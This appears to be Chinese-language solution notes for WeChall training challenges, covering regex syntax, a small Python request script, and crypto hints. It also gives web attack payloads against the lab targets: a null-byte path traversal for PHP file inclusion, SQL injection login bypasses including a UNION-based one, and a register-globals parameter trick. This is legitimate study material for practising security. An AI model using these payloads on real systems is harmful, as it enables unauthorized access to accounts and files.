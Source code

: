 #### [Training: Regex](http://www.wechall.net/challenge/training/regex/index.php) ([Training](http://www.wechall.net/challs/Training), [Regex](http://www.wechall.net/challs/Regex))

正则表达式匹配空字符串，并且仅匹配空字符串

```
/^$/
```

^用于匹配字符串头，$匹配字符串尾。

^$用于匹配一行开始/结束的字符串



用于精确匹配



```
[\s\S]
```

匹配所有。\s 是匹配所有空白符，包括换行，\S 非空白符，不包括换行。



```
\w
```

匹配字母、数字、下划线。等价于 [A-Za-z0-9_]



```
\d 匹配数字
\D 匹配任意非数字的字符
```



```
[\w\W] 也可以达到 [\s\S]
```



```
\b	匹配一个单词边界，即字与空格间的位置。
\B	非单词边界匹配。
```

\b 位于要匹配的字符串的开始，它在单词的开始处查找匹配项。如果它位于字符串的结尾，它在单词的结尾处查找匹配项。

```
/ter\b/ 匹配Chapter结尾的ter
/\bCha/ 匹配Chapter开头的Cha
```







```
{n} 匹配n次
{n,} 匹配大于等于n次
{n,m} 匹配大于等于n小于等于m次
```





```
\d{3}
```

匹配三个数字



```
(pattern)：匹配pattern并捕获该匹配的子表达式，可以使用$0…$9属性从结果”匹配”集合中检索捕获的匹配；
```



Regex Group: 

()表示捕获分组，() 会把每个分组里的匹配的值保存起来， 多个匹配值可以通过数字 n 来查看(n是一个数字，表示第 n 个捕获组的内容)



non-capturing group

```
(?:) 匹配pattern但不捕获该匹配的子表达式
```



```
exp1(?=exp2)：查找 exp2 前面的 exp1
/ra(?=1)/ 匹配1前的ra
```

```
(<=exp2)exp1：查找 exp2 后的 exp1
```

```
exp1(?!exp2)：查找后面不是 exp2 的 exp1
```

```
(?<!exp2)exp1：查找前面不是 exp2 的 exp1
```

#### [Training: Programming 1](http://www.wechall.net/challenge/training/programming1/index.php) ([Training](http://www.wechall.net/challs/Training), [Coding](http://www.wechall.net/challs/Coding))



```python
import requests
url = 'http://www.wechall.net/challenge/training/programming1/index.php?action=request'
headers = {
    'WC' :  '13703310-59474-gTryTu3QC2EXBdiS'
}
r = requests.get(url, cookies = headers)
key = r.text
print(re.text)
url2 = 'http://www.wechall.net/challenge/training/programming1/index.php?answer='
requests.get(url2 + key, cookies = headers)
```



#### [Training: PHP LFI](http://www.wechall.net/challenge/training/php/lfi/up/index.php) ([Exploit](http://www.wechall.net/challs/Exploit), [PHP](http://www.wechall.net/challs/PHP), [Training](http://www.wechall.net/challs/Training))

字符串截断(用法已经被抛弃)

http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00



#### [PHP 0817](http://www.wechall.net/challenge/php0817/index.php) ([PHP](http://www.wechall.net/challs/PHP), [Exploit](http://www.wechall.net/challs/Exploit))

http://www.wechall.net/challenge/php0817/index.php?which=solution

php中switch 执行的是松散比较 ==

两边变量为string或者null， 执行数字或者数值 ，"42" == 42 true

同时对 "php" == 0 true



#### [Training: Crypto - Transposition I](http://www.wechall.net/challenge/training/crypto/transposition1/index.php) **([Crypto](http://www.wechall.net/challs/Crypto), [Training](http://www.wechall.net/challs/Training))**

ihipfcngaicd

临位互换



#### [Training: Crypto - Substitution I](http://www.wechall.net/challenge/training/crypto/simplesub1/index.php) ([Crypto](http://www.wechall.net/challs/Crypto), [Training](http://www.wechall.net/challs/Training))

https://quipqiup.com/



#### [Training: MySQL I](http://www.wechall.net/challenge/training/mysql/auth_bypass1/index.php) ([MySQL](http://www.wechall.net/challs/MySQL), [Exploit](http://www.wechall.net/challs/Exploit), [Training](http://www.wechall.net/challs/Training))

admin' or '1' = '1

```bash
select * from users where username='admin' or '1'='1' and password='123' or '1'='1
```





#### [Training: MySQL II](http://www.wechall.net/challenge/training/mysql/auth_bypass2/index.php) ([MySQL](http://www.wechall.net/challs/MySQL), [Exploit](http://www.wechall.net/challs/Exploit), [Training](http://www.wechall.net/challs/Training))



```sql
mysql> select 1,2,3,4,5,6;
+---+---+---+---+---+---+
|1  | 2 | 3 | 4 | 5 | 6 |
+---+---+---+---+---+---+
|1  | 2 | 3 | 4 | 5 | 6 |
+---+---+---+---+---+---+

mysql> select * from users;
+---+---+---+
|id |usn|pwd|
+---+---+---+
|1  |xx |122|
|2  |xx |123|
|3  |xx |123|
+---+---+---+

mysql> select 1,2,3 from users;
+---+---+---+
|1  |2  |3  |
+---+---+---+
|1  |2  |3  |
|1  |2  |3  |
|1  |2  |3  |
+---+---+---+
```



```php
$password = md5($password);
$query = "SELECT * FROM users WHERE username='$username'";
```



题目中表格属性为

```
/* TABLE STRUCTURE
CREATE TABLE IF NOT EXISTS users (
userid    INT(11) UNSIGNED AUTO_INCREMENT PRIMARY KEY,
username  VARCHAR(32) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL,
password  CHAR(32) CHARACTER SE3T ascii COLLATE ascii_bin NOT NULL
) ENGINE=myISAM;
*/
```



union会将查找到的结果合并

所以我们需要填充3列



123' union select 1, 'admin', md5('123');#

123



#### [Training: Register Globals](http://www.wechall.net/challenge/training/php/globals/index.php) ([Exploit](http://www.wechall.net/challs/Exploit), [PHP](http://www.wechall.net/challs/PHP), [Training](http://www.wechall.net/challs/Training))

?username=admin&password=123&login[0]=admin



## [Training: GPG](http://www.wechall.net/challenge/training/crypto/gpg/index.php) ([Crypto](http://www.wechall.net/challs/Crypto), [Training](http://www.wechall.net/challs/Training))

GPG suite Mac

生成密钥

解密时 右键文件-> 服务 -> GPG decrypt



